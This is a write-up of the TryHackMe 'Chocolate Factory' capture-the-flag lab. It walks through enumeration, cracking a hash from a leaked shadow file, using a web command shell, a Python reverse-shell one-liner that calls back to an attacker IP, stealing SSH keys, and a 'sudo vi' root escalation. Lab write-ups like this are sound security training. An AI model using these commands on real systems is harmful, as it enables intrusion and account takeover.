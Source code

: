 # [Chocolate Factory](https://tryhackme.com/room/chocolatefactory) TryHackMe CTF

![logo](./assets/golden_ticket.png)
---

```shell
export IP=10.10.185.246
```

Let's kick off with a few `nmap` scans to enumerate the box

```shell
nmap -sC -sV -v $IP -oN nmap/initial.txt
```
Reveals the following
```
Ports:
21 ftp
22 ssh
80 http
106 unique
110 unique
111 unique
113 unique
125 unique
```

During the nmap scan, I noticed that it took much to scan - because within each of the special ports, there was a hint about which file to get.

![hint](./assets/hint.png)

Thankfully as nmap did that for us, I was able to quickly find `http://localhost/key_rev_key` which points to a directory on the box.
Downloading the file and analysing it, it appears to be some sort of binary file we are meant to run... I decided that before I use Ghidra or equivilent I would run it through strings - and viola!

![First key](./assets/binary_key.png)

Some sort of key, throwing it into b64 and other base decodes doesn't reveal much so I postpone working on it.

Then I looked into the other ports, first ftp. It allowed anonymous login and there was a solitary `gum_room.png` file. Throwing it into a steg decode revealed that it was a large file encoded in base64. Decoding the base64 file revealed it to be a shadow file! With an exposed hash for a user `charlie`, which I immediately put into a hash-cracker

```shell
hashcat -m 1800 '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/' ~/wordlists/passwords/rockyou.txt
```


---

Moving on to the main website, I first enumerate it with `gobuster`

```shell
gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .php,.txt,.html,.jpg,.png -o gobuster/dir_med.txt
```

Doing this I discover some interesting directories.
```
/home.php
/validate.php
```
Going into `home.php` revealed it to be a web-side command shell.

![home page](./assets/home.png)

I then use a python reverse shell to give myself better access to it
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<IP>>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I check the php code for `validate.php` which contains the plaintext username and password for charlie

![validate](./assets/validate.png)

Using his credentials simply takes me back to `validate.php`.

Now that I have box access, I navigate and investigate charlie's home directory, which contains a user.txt (cannot view) but two files, teleport and teleport.pub; which are charlie's ssh public and private keys. Copying these over, I can now ssh into the box as charlie.

(Note that the hashcat cracker is still _pointlessly_ chugging away in the background)

As charlie, I am now able to grab the user flag and submit it. My new focus is on Priviledge Escalation.
I dutifully check charlie's sudo permissions even though I do not have his password.

![sudo](./assets/sudo.png)

We can sudo `/usr/bin/vi` without requiring a password - although with the caveat that we cannot run it as root - or is it?

```shell
sudo vi -c ':!/bin/bash -i' /dev/null
```

And we now have root access!
